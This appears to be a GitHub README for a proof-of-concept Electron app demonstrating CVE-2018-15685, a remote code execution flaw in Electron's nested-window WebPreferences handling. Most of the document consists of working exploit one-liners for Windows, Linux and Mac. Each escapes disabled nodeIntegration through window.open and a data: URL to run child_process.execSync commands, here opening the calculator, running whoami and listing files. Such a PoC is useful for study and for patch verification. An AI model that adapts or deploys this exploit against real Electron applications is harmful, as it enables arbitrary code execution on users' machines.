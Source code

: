 # CVE-2018-15685 - Electron WebPreferences Remote Code Execution

![enter image description here](https://cdn-images-1.medium.com/max/2000/1*aBsgPiEeOE5lLoippRm7BA.png)
This is a minimal Electron application with a POC for [CVE-2018-15685](https://nvd.nist.gov/vuln/detail/CVE-2018-15685).

> A remote code execution vulnerability has been discovered affecting apps with the ability to open nested child windows on Electron versions (3.0.0-beta.6, 2.0.7, 1.8.7, and 1.7.15). This vulnerability has been assigned the CVE identifier CVE-2018-15685.


The project contains the fillowing files:

- `main.js` - This is the app's **main process**. Note this has `nodeIntegration` disabled so it should not be possibe use "process"
- `index.html` - This is an example rendered page. This could be remotely controlled URL, or a page from an application with an XSS. In this example even though it is a local file but should not have access to node bindings.

## To Use

To clone and run this repository you'll need [Git](https://git-scm.com) and [Node.js](https://nodejs.org/en/download/) (which comes with [npm](http://npmjs.com)) installed on your computer. From your command line:

```bash
# Clone this repository
git clone https://github.com/rahulr311295/Electron_RCE.git
# Go into the repository
cd Electron_RCE
# Start a PHP Server
sudo php -S localhost:80
# Install dependencies
npm install
# Run the app
npm start
```
## To Run

### Windows
```
# Exploit Code
window.open().open('data:text/html,Code Execution <br><pre>Exploited: <pre><script>document.write(require("child_process").execSync("calc.exe"))</scr'+'ipt></pre></br></br><pre>Whoami: <pre><script>document.write(require("child_process").execSync("whoami"))</scr'+'ipt></pre></pre>');

# Which Executes Calculator and shows which user is currently logged in
```
![Windows](https://media.giphy.com/media/7OWdOErn5tFn2F1LKW/giphy.gif)
    
### Linux
```
# Exploit Code
window.open().open('data:text/html,Code Execution <br><pre>Exploited: <pre><script>document.write(require("child_process").execSync("ls"))</scr'+'ipt></pre></br></br><pre>Whoami: <pre><script>document.write(require("child_process").execSync("whoami"))</scr'+'ipt></pre></pre>');

# Which lists files and shows which user is currently logged in
```
![Linux](https://media.giphy.com/media/4ZcOpedgQBPMMWdHsN/giphy.gif)

### Mac
```
# Exploit Code
window.open().open('data:text/html,Code Execution <br><pre>Exploited: <pre><script>document.write(require("child_process").execSync("ls"))</scr'+'ipt></pre></br></br><pre>Whoami: <pre><script>document.write(require("child_process").execSync("open /Applications/Calculator.app"))</scr'+'ipt></pre></pre>');

# Which Executes Calculator and lists files in the directory
```
![Linux](https://media.giphy.com/media/XIhhk0xiXlkK1Roqux/giphy.gif)
**For More Information about this Vulnerability **
Full write up on the [Contrast Security blog](https://www.contrastsecurity.com/security-influencers/cve-2018-15685) or the write up on the offical blog from [Electron](https://electronjs.org/blog/web-preferences-fix)

**Credits to**
#### [Matt Austin](https://github.com/matt-) for the original POC